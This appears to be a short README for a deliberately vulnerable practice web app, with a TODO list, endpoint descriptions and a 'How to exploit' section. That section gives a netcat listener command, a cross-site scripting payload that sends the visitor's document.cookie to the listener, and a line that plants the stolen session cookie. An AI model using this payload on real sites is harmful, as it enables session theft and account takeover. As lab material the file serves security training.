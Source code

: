 TODO:
* Shell script that mimics admin checking mail (needs to have cookie and use Javascript)
* Rename & secure h2 console endpoint


How to exploit:
* nc -lvp 1337
* <script>a = new Image();a.src="http://localhost:1337/?cookie=" + document.cookie;</script>
* document.cookie="guid=b8afc16b-1b1e-4a79-825b-360f141fa0f8"

Pages:
http://localhost:8080/ - Get - Form to post message to admin
http://localhost:8080/ - Post - Form submission
http://localhost:8080/numberOfMessages - Total number of messages in the database (for shell script to loop)
http://localhost:8080/mail/{id} - Get - Retrieve a specific message